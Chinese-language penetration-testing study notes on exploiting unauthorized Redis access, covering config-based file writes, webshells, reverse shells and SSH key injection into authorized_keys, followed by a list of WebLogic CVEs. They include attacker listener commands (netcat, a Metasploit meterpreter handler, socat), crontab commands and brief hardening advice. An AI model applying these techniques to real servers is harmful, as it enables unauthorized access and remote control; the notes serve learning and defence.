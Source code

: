 # Redis未授权访问
常见用途
Remote Dictionary Service

redis持久化机制
保存在内存的数据会不定期的存在磁盘
RDB——Redis DataBase
AOF——Append Only File

自动触发规则
redis.conf   
dbfilename duomp.rdb 存储文件名
dir ./ 存储路径
`save 3600 1`

Redis动态修改配置
config set：动态修改配置，重启后失效
写入文件


webshell提权



反弹连接
内网 私有ip
ip动态变化
6379端口不允洗入方向
一句话木马杯杀软删除
常见监听端口的方式（攻击机）
netcat ——nc -lvp 7777
msf —— 
```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.142.141
set lport 7777
run
```
socat——socat TCP_LISTEN:7777 -

常见建立反弹连接的方式（靶机执行）


Linux文件描述符
标准输入（stdin）：代码为0，使用<或<<
标准输出（stdout）：代码1，使用>或>>
标准错误输出（stderr）：代码为2，使用2>或2>>

流程
1. 监听端口
2. 执行命令，或者上传payload访问，建立连接

怎么上传？
1. 文件上传漏洞
2. 写入文件：MySQL、Redis、CMS
3. 文件编辑命令：tee（vunlnhub-breach）、test.py（vuluhub-DC9）

怎么执行？
 访问或者定时任务自动触发


查看Linux定时任务——crontab





Cron表达式

命令
- crontab -u root -r 删除某个用户的任务
- crontab -u root time.cron 把文件添加到某个用户的任务
- crontab -u root -l 列举某个用户的任务
- crontab -u root -e 编辑某个用户的任务




SSH key免密登录
1. 客户端生成密钥对（公钥、密钥）
2. 客户端吧公钥发给服务器保存
3. 客户端用私钥加密消息，发给服务端
4. 服务端用公钥解密，解密成功，说明密钥匹配——客户端用密钥加密，公钥解密是数字签名
5. 客户端免密登录成功

**密钥加密，公钥解密——数字签名**
**公钥加密，密钥解密——加密**



Redis利用SSH提权流程
- 控制机连接到Redis
- 想$HOME/.ssh/authorized_keys写入公钥
- ssh -i  ./id_rsa user@IP使用私钥免密登录
- 执行后续操作

[基于主从复制的RCE（Remote Code EXecution）](未归纳/基于主从复制的RCE（Remote%20Code%20EXecution）.md)
[Jackson反序列化利用](未归纳/Jackson反序列化利用.md)
[lua RCE](未归纳/lua%20RCE.md)
[Redis密码爆破](未归纳/Redis密码爆破.md)




加固
1. 限制访问IP
2. 修改默认端口
3. 使用密码访问
4. 不要用root运行Redis

# Weblogic漏洞
1. 弱口令、任意文件读取——CVE-2018-2894
2. 任意文件上传getshell——CVE-2018-2894
3. SSRF探测redios getshell——CVE-014-4210
4. 未授权远程代码执行漏洞——CVE-2020-14882
5. T3协议协议反序列化RCE——CVE-2018-2628
6. XML解析反序列化RCE——CVE-2017-10271
7. JNDI注入漏洞——CVE-2023-21839

全名
Oracle WebLogic Server、
常见版本
WebLogic Server 10.x——11g
WebLogic Server 12.x——12c
默认端口：7001